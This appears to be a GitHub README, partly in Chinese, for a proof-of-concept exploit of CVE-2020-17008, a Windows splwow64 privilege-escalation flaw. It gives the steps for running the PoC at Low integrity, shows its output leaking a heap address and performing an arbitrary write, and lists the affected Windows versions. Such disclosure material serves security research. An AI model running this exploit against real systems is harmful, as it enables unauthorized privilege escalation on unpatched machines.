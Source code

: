# CVE-2020-17008 splWOW64 Elevation of Privilege

`C:\Windows\splwow64.exe`

Poc From:

https://bugs.chromium.org/p/project-zero/issues/detail?id=2096


## 0x01 set splwow64_poc.exe `Low`

`cd splwow64_poc\x64\Release`

`icacls splwow64_poc.exe /setintegritylevel L`

![](./images/01_Low.png)

```
 /setintegritylevel [(CI)(OI)]级别将完整性 ACE 显式
        添加到所有匹配文件。要指定的级别为以下级别
        之一:
             L[ow]
             M[edium]
             H[igh]
        完整性 ACE 的继承选项可以优先于级别，但只应用于
        目录。
```

## 0x02 run `splwow64_poc.exe`


![](./images/02_medium.png)

```
splwow64_poc\x64\Release>splwow64_poc.exe

Start
ntdll = 0x7FF837980000
Init done
C:\Users\pwned\Desktop\splwow64_poc\x64\Release
C:\Users\pwned\Desktop\splwow64_poc\x64\Release\CreateDC.exe
Now's the time to hook up the debugger to splwow64.exe if you want to. Press [Enter] to continue . . .
Get port name
name: \RPC Control\UmpdProxy_2_bea57_0_2000
Create port.
Prepare 0x6A Message - OpenPrinter
PtrMsgReply: 0x0000000000AB0140
ClientView: 0x0000027F390B0000/0x0000000000AB0000, 0x0000027F390B0100: Microsoft XPS Document Writer
Writing message 0x6A success!
Cookie: 0x0
Preparing 0x6D message (to leak heap address) - DocumentEvent
Output: 0x0000000000000000, Heap Address: 0xFFFFFFFFFFFFFFC0
Preparing 0x6D message (write to 0x41414141) - DocumentEvent
Done
```

## 影响版本

```
Windows 10 1607版（用于基于x64的系统）
适用于32位系统的Windows 10版本1607
Windows 10（用于基于x64的系统）
Windows 10（用于32位系统）
Windows 10 1709版（用于基于ARM64的系统）
Windows 10版本1709（用于基于x64的系统）
适用于32位系统的Windows 10版本1709
Windows 10版本1809（用于基于ARM64的系统）
Windows 10版本1809（用于基于x64的系统）
适用于32位系统的Windows 10版本1809

Windows Server版本1803（服务器核心安装）
Windows 10版本1803（用于基于ARM64的系统）
Windows 10版本1803（用于基于x64的系统）
适用于32位系统的Windows 10版本1803

Windows Server 1903版（服务器核心安装）
Windows 10 1903版（用于基于ARM64的系统）
Windows 10 1903版（用于基于x64的系统）
适用于32位系统的Windows 10版本1903

Windows Server版本1909（服务器核心安装）
Windows 10 1909版（用于基于ARM64的系统）
Windows 10版本1909（用于基于x64的系统）
适用于32位系统的Windows 10版本1909

Windows Server 2004版（服务器核心安装）
Windows 10版本2004（用于基于x64的系统）
Windows 10版本2004（用于基于ARM64的系统）
Windows 10版本2004（用于32位系统）

Windows Server 2016（服务器核心安装）
Windows Server 2016

Windows Server 2019（服务器核心安装）
Windows Server 2019

Windows Server 2012
Windows Server 2012 R2（服务器核心安装）
Windows Server 2012 R2
Windows Server 2012（服务器核心安装）

Windows RT 8.1
Windows 8.1（用于基于x64的系统）
Windows 8.1（用于32位系统）
```
